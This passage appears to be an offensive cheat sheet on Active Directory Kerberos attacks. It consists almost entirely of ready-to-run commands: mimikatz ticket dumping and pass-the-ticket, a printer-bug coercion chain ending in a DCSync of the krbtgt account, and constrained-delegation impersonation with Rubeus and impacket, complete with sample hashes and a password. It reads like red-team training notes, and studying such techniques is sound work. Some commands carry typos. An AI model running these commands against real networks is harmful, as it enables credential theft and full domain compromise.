 ```
privilege::debug

# list
sekurlsa::tickets

# dump
seurlsa::tickets /export

# pass the ticket
kerberos::ptt <ticket>.kirbi
```

#### Printer Bug

```
# enumerate
ls \\dc01\pipe\spoolss

# rubeus in monitor mode
.\Rubeus.exe monitor /interval:5 /filteruser:CDC01$

#Launch print spooler
.\SpoolSample.exe CDC01 APPSRV01

# Pass the ticket
.\Rubeus.exe ptt /ticket:doIFIj

# dcsync
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

### Constrained Delegation

```
# generate TGT
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# impersonsate
.\Rubeus.exe s4u /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt /ticket:[...]

# OR impersonate using ntlm
.\Rubeus s4u /user:web01$ /rc4:75ba1a138dc1f86cf18b69968f801021 /impersonateuser:administrator /msdsspn:cifs/file01 /ptt

# impersonate and modify service
.\Rubeus.exe s4u /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt /ticket:[...] /altservice:cifs

# impacket impersonate 
getST.py -dc-ip 10.9.0.1 -spn 'cifs/dc.vault.local' -impersonate 'administrat' 'vault.local/attackersystem$:Summer2018!'
```
